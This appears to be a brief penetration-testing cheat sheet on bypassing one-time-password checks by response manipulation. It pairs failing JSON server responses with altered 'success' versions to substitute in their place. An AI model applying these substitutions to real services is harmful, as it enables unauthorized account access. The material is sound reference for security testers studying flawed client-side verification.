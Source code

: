 ## Bypass OTP

Wrrong Response | Manipulate Response
----------------|--------------------
**{"status":"0","message":"Incorrect OTP. Please Try Again"} | {"status":"1","message":"Correct OTP"}


**{"error"} | {"Success"}

**{"verificationStatus":false,"mobile":"+62xxxxxxxx","profileId":"450xxxxx"} | {"verificationStatus":true,"mobile":"+62xxxxxxxx","profileId":"450xxxxx"}

